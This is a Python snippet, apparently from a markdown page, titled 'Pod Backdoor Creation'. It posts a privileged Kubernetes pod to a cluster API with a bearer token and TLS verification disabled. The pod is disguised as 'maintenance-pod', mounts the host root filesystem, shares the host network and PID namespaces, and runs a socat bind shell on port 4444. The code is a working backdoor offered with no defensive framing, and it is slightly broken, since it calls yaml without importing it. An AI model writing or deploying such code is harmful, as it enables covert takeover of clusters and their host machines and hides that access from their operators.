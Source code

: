#### Pod Backdoor Creation
```python
#!/usr/bin/env python3
import requests
import json
import base64

def create_backdoor_pod(api_server, token, namespace="default"):
    headers = {
        "Authorization": f"Bearer {token}",
        "Content-Type": "application/json"
    }
    
    # Reverse shell payload
    payload = """
    apiVersion: v1
    kind: Pod
    metadata:
      name: maintenance-pod
      namespace: {namespace}
      labels:
        app: system-maintenance
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: maintenance
        image: alpine:latest
        command: ["/bin/sh"]
        args: ["-c", "apk add socat && socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane"]
        securityContext:
          privileged: true
          runAsUser: 0
        volumeMounts:
        - name: host-root
          mountPath: /host
      volumes:
      - name: host-root
        hostPath:
          path: /
      restartPolicy: Always
    """.format(namespace=namespace)
    
    pod_spec = yaml.safe_load(payload)
    
    url = f"{api_server}/api/v1/namespaces/{namespace}/pods"
    resp = requests.post(url, headers=headers, json=pod_spec, verify=False)
    
    if resp.status_code == 201:
        print(f"Backdoor pod created successfully in namespace {namespace}")
        return True
    else:
        print(f"Failed to create backdoor pod: {resp.text}")
        return False
```

---